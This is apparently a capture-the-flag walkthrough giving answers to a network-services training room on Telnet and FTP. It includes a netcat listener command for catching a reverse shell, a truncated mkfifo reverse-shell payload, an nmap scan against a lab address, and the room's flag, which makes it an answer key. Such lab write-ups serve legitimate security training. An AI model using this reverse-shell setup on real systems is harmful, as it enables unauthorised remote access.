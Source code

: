- <p>Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:</p><p><b>"nc -lvnp [listening port]" </b></p><p>What would the command look like for the listening port we selected in our payload?<br /><b></b><br /></p>

**=> Answer: `nc -lvnp 4444`**

- <p>Success! What is the contents of flag.txt?<br /></p>
```
.RUN mkfifo...
```
```
cat flag.txt
```
![Guide image](./screenshots/network-services-12.png)
![Guide image](./screenshots/network-services-13.png)
**=> Answer: `THM{y0u_g0t_th3_t3ln3t_fl4g}`**

### 8. Understanding FTP
- <p>What communications model does FTP use?<br /></p>

**=> Answer: `client-server`**

- <p>What's the standard FTP port?<br /></p>

**=> Answer: `21`**

- <p>How many modes of FTP connection are there?    <br /></p>

**=> Answer: `2`**

### 9. Enumerating FTP
- <p>Run an <b>nmap</b> scan of your choice.</p><p>How many <b>ports</b> are open on the target machine?  <br /></p>
```bash
nmap -sS -sV 10.10.43.253
```